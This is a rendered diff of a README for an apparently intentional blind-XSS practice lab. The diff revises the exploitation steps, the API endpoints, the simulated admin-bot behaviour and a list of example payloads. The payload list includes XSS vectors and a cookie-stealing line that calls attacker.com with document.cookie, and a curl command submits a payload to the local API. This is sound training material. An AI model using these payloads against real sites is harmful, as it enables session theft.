

Before and after one commit to 3xecutablefile/BlindXSS-Lab, a Markdown page: README.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -64,77 +64,75 @@ npm run build && npm start
 
-### Method 2: Contact Form
-1. Use the contact form on the page
-2. The form will capture your browser's User-Agent string
-3. If your User-Agent contains XSS code, it may be detected by the bot
+1. Open the main application page.
+2. Submit an XSS payload such as `<img src=x onerror=alert('XSS')>`.
+3. The bot checks for new reports every few seconds.
+4. When the bot processes your submission, the payload executes.
 
-### Method 3: API Direct Access
-You can also submit payloads directly to the API:
+### Method 2: Contact Form Injection
+
+1. Submit the contact form on the main page.
+2. The server stores your browser’s User-Agent.
+3. If the User-Agent contains scriptable content, it may be executed by the bot.
+
+### Method 3: API-Based Submission
+
 ```bash
 curl -X POST http://localhost:3000/api/reports \
   -H 'Content-Type: application/json' \
   -d '{"userAgent":"<img src=x onerror=alert(1)>"}'
 ```
 
-## 🔍 Available Endpoints
+## Available Endpoints
 
-### Main Application Endpoints
-- `GET /` - Main application interface
+### Application
 
-### API Endpoints
-- `GET /api/reports` - List all stored reports
-- `POST /api/reports` - Submit a new report with a User-Agent payload
-- `GET /api/comments` - List all comments
-- `POST /api/comments` - Submit a new comment (potential XSS vector)
-- `POST /api/contact` - Submit a contact form (captures User-Agent)
-- `GET /api/xss-payloads` - List collected XSS payloads
-- `GET /api/bot` - Manually trigger the bot to scan for XSS payloads
-- `GET|POST /api/collect-xss` - Endpoint for collecting payload data (returns 1x1 GIF)
-- `GET /admin` - Minimal dashboard that surfaces flagged reports and detection reasons
+* `GET /` — Main application interface
 
-## 🤖 Bot Behavior
+### API
 
-The application includes a "bot" that simulates an admin user reviewing reports. Every 3 seconds, the bot:
+* `GET /api/reports` — Retrieve stored reports
+* `POST /api/reports` — Submit a new report
+* `GET /api/comments` — View comments
+* `POST /api/comments` — Submit a comment
+* `POST /api/contact` — Contact form submission with User-Agent capture
+* `GET /api/xss-payloads` — View collected payloads
+* `GET /api/bot` — Manually trigger a bot scan
+* `GET | POST /api/collect-xss` — Logging endpoint returning a 1×1 GIF
+* `GET /admin` — Dashboard showing flagged payloads and detection rules
 
-1. Checks `/api/bot` endpoint for new reports
-2. Scans recent reports (past 5 minutes) for potential XSS payloads
-3. If XSS-like patterns are detected, they are flagged with a severity and detection rule
-4. In a real scenario, the bot would execute the JavaScript code in a browser context
+## Bot Behavior
 
-You can also visit `/admin` to see the flagged reports, their severities (low/medium/high), and the rules that triggered them. The page auto-refreshes every few seconds to mirror the polling bot.
+The simulated bot runs continuously and performs the following every three seconds:
 
-## 🧪 Common XSS Payloads to Test
+1. Calls `/api/bot` to check for new data
+2. Reviews recent reports (within the last five minutes)
+3. Flags items matching XSS-like patterns
+4. Attaches severity ratings and reasons for detection
 
-> ⚠️ These are for educational purposes only!
+The dashboard at `/admin` displays flagged entries and refreshes automatically.
+
+## Example Payloads
+
+Use these for testing only:
 
 ```html
-<!-- Basic alert -->
 <script>alert('XSS')</script>
-
-<!-- Image tag with onerror -->
 <img src=x onerror=alert('XSS')>
-
-<!-- JavaScript in href -->
 <a href="javascript:alert('XSS')">Click me</a>
-
-<!-- More stealthy -->
 <svg onload=alert('XSS')>
-
-<!-- Event handlers -->
 <div onmouseover=alert('XSS')>Hover over me</div>
-
-<!-- External payload -->
-<img src=x onerror=fetch('http://attacker.com/log?cookie='+document.cookie)>
+<img src=x onerror=fetch('http://attacker.com/log?cookie=' + document.cookie)>
 ```
 
-## 🔧 Configuration Options
+## Configuration
 
-You can customize the bot behavior using environment variables:
+Several environment variables allow customization:
 
-- `BOT_URL` - Change the URL the bot polls (default: `http://localhost:3000/api/bot`)
-- `BOT_INTERVAL_MS` - Change polling interval (default: 3000ms)
-- `PORT` - Change the application port (default: 3000)
+* `BOT_URL` — Bot polling target (default: `http://localhost:3000/api/bot`)
+* `BOT_INTERVAL_MS` — Polling interval (default: 3000)
+* `PORT` — Server port (default: 3000)
 
 Example:
+
 ```bash
 BOT_INTERVAL_MS=5000 npm run dev
 ```
````
Also changed, not shown: other parts of README.md (+61 -81 lines).
